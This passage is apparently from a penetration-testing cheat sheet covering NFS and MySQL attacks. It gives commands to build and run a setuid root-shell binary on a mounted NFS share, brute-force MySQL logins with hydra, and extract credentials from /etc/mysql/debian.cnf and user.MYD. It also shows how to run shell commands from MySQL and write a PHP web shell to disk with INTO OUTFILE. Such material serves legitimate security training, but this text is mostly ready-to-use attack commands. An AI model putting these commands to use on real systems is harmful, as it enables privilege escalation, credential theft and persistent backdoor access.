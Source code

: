 - Attacker, as root user
  ```
  mkdir <DIRECTORY>
  mount -v -t nfs <IP>:<SHARE> <DIRECTORY>
  cd <DIRECTORY>
  echo 'int main(void){setreuid(0,0); system("/bin/bash"); return 0;}' > pwn.c
  gcc pwn.c -o pwn
  chmod +s pwn
  ```

- Victim
  - `cd <SHARE>`
  - `./pwn # Root shell`


## MYSQL - 3306
- Brute force
  - `hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u`

- Extracting MySQL credentials from files
  - `cat /etc/mysql/debian.cnf`
  - `grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"`

- Connect
  - Local
    - `mysql -u <USER>`
    - `mysql -u <USER> -p`

- Remote
  - `mysql -h <IP> -u <USER>`

- MySQL commands
  ```
  show databases;
  use <DATABASES>;

  show tables;
  describe <TABLE>;

  select * from <TABLE>;

  # Try to execute code
  select do_system('id');
  \! sh

  # Read & Write
  select load_file('<FILE>');
  select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE '<OUT_FILE>'
  ```

- Manual exploit
  - Cheatsheet :
    - <https://www.asafety.fr/mysql-injection-cheat-sheet/>

